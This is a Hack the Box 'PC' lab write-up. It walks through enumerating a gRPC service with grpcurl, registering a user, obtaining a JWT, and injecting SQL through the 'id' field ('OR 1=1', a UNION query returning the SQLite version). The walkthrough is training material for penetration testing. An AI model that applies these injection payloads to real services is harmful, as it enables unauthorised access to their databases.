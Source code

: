 ```yaml
--- 
title: "Hack the Box (HTB) - PC"
description: "Exploiting gRPC"
date: 2024-07-10 12:00:00 -100
image: /assets/images/HTB - PC/PCP-South.png
categories: [Vulnerability Assessment, Web Application]
tags: [arbitrary file upload, burp suite, client-side validation, container, insufficient password security, pentest report, sql injection, sqlmap, xss]    # TAG names should always be lowercase
---
```

*Cover image by [Freepik](https://www.freepik.com/)*

## Enumeration
First let's start by running enumeration on our IP `10.10.11.214` I like to use the tool [AutoRecon](https://github.com/Tib3rius/AutoRecon) as it vastly speeds up the enumeration process

```bash
sudo autorecon <ip>
```

Checking our `_full_tcp_nmap.txt` that autorecon generated for us. We see that ports `22` and `50051` are open

![Nmap Scan](assets/images/HTB - PC/Nmap scan.png)

Doing a quick good search tells us that port 50051 is typically associated with gRPC (Google Remote Procedure Calls) which essentially is a open source protocol that helps microservices communicate with each other

We can run the tool `grpc curl` to list the available services on a gRPC server

```bash
grpcurl -plaintext 10.10.11.214:50051 list
```

We see the following `SimpleApp` & `grpc.reflection.v1alpha.ServerReflection`

![grpc curl](/assets/images/HTB%20-%20PC/gRPC%20curl\).png)

We can run the folowing command against the service to identify RPC methods

```bash
grpcurl -plaintext 10.10.11.214:50051 describe SimpleApp
```

![grpc methods](/assets/images/HTB%20-%20PC/grpc%20methods.png)

We've successfully identified the following three service methods

- LoginUser
- RegisterUser
- getInfo

Before we can attempt to exploit these methods, we need to understand the structure of the request and response message for each method. We can use the the following command to accomplish this

```bash
# Describe Request and Response Types for "LoginUser"
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserRequest
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserResponse
```
![Request and response type](/assets/images/HTB%20-%20PC/Request%20and%20respones%20type.png)

Now that we have a detailed structure, we can craft a request and perform tests. Let's try to send data to the `RegisteredUser` endpoint in the form of creating an account

```bash
grpcurl -plaintext -d '{"username": "Jigsaw64", "password": "PleaseHireMe"}' 10.10.11.214:50051 SimpleApp.RegisterUser
```
![User Crated](/assets/images/HTB%20-%20PC/User%20created.png)

Account successfully created. Now let's login

```bash
grpcurl -plaintext -d '{"username": "Jigsaw64", "password": "PleaseHireMe"}' 10.10.11.214:50051 SimpleApp.LoginUser
```

![Login Successful](/assets/images/HTB%20-%20PC/ID%20333.png)

Login successful & our ID is `333` Now let's attempt to invoke the `getInfo` method with our ID
```bash
grpcurl -plaintext -d '{"id": "333"}' 10.10.11.214:50051 SimpleApp.getInfo
```

![Missing token header](/assets/images/HTB%20-%20PC/Missing%20Token%20header.png)

It looks like to call the getInfo method, we need a `token` header in our request. After some research I discoverd that adding the `-vv` flag for very verbose might provide us with more metadata on our request. Let's edit the `LoginUser` request and attempt it again

![Token Received](/assets/images/HTB%20-%20PC/Token%20Received.png)

Nice, we got our JSON Web Token (JWT). Now let's edit the `.getInfo` request with our token and try again

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA3NTk0MTR9.wU1nEE4r0kiPpqfc9mX4u73Yip-eHy-HQyNXCVzGsao" \
  -d '{"id": "633"}' \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```
We see the following message `"Will update soon."`

![Will update soon](/assets/images/HTB%20-%20PC/Will%20update%20soon.png)

Let's try a basic SQL injection the ID parameter

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA3NTk0MTR9.wU1nEE4r0kiPpqfc9mX4u73Yip-eHy-HQyNXCVzGsao" \
  -d '{"id": "555 OR 1=1"}' \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```
We get the reponse `"message": "The admin is working hard to fix the issues.`

It looks like our simple SQL injection payload worked. Instead of querying specifically for the ID of 555, it evaluated 1=1 to true, retraining data related to the admin message.

Let's trying querying for the DB version we're dealing with. 

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA3NTk0MTR9.wU1nEE4r0kiPpqfc9mX4u73Yip-eHy-HQyNXCVzGsao" \
  -d '{"id": "555 union select sqlite_version()"}' \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```

We've confirmed that the method we're interacting with is querying a `SQLite` DB and that the version is `3.31.1`
